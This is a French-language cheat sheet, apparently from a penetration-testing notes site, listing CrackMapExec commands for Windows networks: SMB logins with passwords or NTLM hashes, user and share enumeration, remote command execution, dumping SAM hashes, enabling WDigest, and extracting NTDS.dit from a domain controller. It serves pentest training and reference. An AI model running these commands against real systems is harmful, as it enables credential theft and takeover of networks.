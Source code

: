 ```yaml
---
description: >-
  CrackMapExec (CME) - Outil de Post-Exploitation et
  d'Exploration                                  CrackMapExec étant vraiment un
  outil très complet je vous conseille cette cheatsheet, plus détaillé
---
```


# CrackMapExec

[https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)\
\
<mark style="color:yellow;">Description :</mark> \
CrackMapExec (CME) est un outil de post-exploitation en Python qui facilite l'exploration et l'exploitation des réseaux Windows. Il permet aux professionnels de la sécurité d'effectuer une variété de tâches sur des systèmes Windows compromis, y compris l'obtention d'informations d'identification, l'exécution de commandes à distance, l'exploitation de vulnérabilités et bien plus encore.

<mark style="color:yellow;">Exemples d'utilisation :</mark>

<mark style="color:green;">Connexions & Authentification :</mark>

* Connexion à un seul hôte : \
  `crackmapexec smb 192.168.215.104 -u user -p PASS`
* Connexion à plusieurs hôtes : \
  `crackmapexec smb 192.168.1.0-28 10.0.0.1-67 -u user -p PASS`
* Connexion avec NTLM hash :\
  &#x20;`crackmapexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH'`

<mark style="color:green;">Enumeration :</mark>

* Enumérer les utilisateurs :\
  &#x20;`crackmapexec smb 192.168.215.104 -u user -p PASS --users`
* Enumérer les groupes de domaine : \
  `crackmapexec smb 192.168.215.104 -u user -p PASS --groups`
* Enumérer les partages SMB : \
  `crackmapexec smb 192.168.215.138 -u user -p PASSWORD --local-auth --shares`
* Afficher les sessions actives : \
  `crackmapexec smb 192.168.215.104 -u user -p PASS --sessions`

<mark style="color:green;">Execution de commandes :</mark>

* Exécuter une commande avec cmd.exe (privilèges administratifs requis) : \
  `crackmapexec smb 192.168.10.11 -u Administrator -p P@ssw0rd -x whoami`

<mark style="color:green;">Obtention des Informations d'Identification :</mark>

* Extraire les hachages SAM locaux : \
  `crackmapexec smb 192.168.215.104 -u Administrator -p PASS --local-auth --sam`
* Activer ou désactiver WDigest pour obtenir les informations d'identification depuis la mémoire LSA : \
  `crackmapexec smb 192.168.215.104 -u Administrator -p PASS --local-auth --wdigest enable`
* Extraire le fichier NTDS.dit à partir du contrôleur de domaine (DC) : \
  `crackmapexec smb 192.168.1.100 -u UserName -p PASSWORDHERE --ntds`
* Extraire l'historique des mots de passe du fichier NTDS.dit : \
  `crackmapexec smb 192.168.1.0/24 -u UserName -p PASSWORDHERE --ntds-history`

<mark style="color:yellow;">Options Principales :</mark>

* smb : Utiliser le module SMB pour interagir avec les hôtes Windows.
* \-u \<nom\_utilisateur> : Spécifier le nom d'utilisateur pour l'authentification.
* \-p \<mot\_de\_passe> : Spécifier le mot de passe pour l'authentification.
* \--shares : Répertorier les partages SMB sur une machine cible.
* \-x "commande" : Exécuter une commande sur un système distant.
* \--exec-method=\<méthode> : Spécifier la méthode d'exécution pour l'exploitation.
* \--exe-file=\<fichier\_exploit> : Spécifier le fichier d'exploitation à utiliser.
